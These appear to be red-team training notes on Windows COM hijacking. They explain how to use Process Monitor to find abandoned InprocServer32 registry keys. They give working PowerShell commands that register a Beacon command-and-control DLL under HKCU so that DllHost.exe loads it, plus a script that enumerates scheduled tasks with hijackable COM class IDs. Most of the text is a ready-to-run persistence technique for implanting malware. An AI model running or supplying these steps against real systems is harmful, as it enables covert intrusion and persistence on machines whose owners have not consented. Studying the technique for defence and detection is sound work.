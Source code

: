 
## Hunting for COM Hijacks

---

Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).  [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives.

We're looking for:
- _RegOpenKey_ operations.
- where the Result is _NAME NOT FOUND_.
- and the Path ends with _InprocServer32_.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/57f/155/b0a/procmon-filter.png)

Verify that entry exists in HKLM but not in HKCU:
``` powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```

Create the necessary registry entries in HKCU and point them at a Beacon DLL (`C:\Payloads\http_x64.dll`):
``` powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

When _DllHost.exe_ loads this COM entry, we get a Beacon.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c22/0d0/e0e/dllhost.png)

To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.

### Look for Hijackable COM Components in Task Scheduler

``` powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
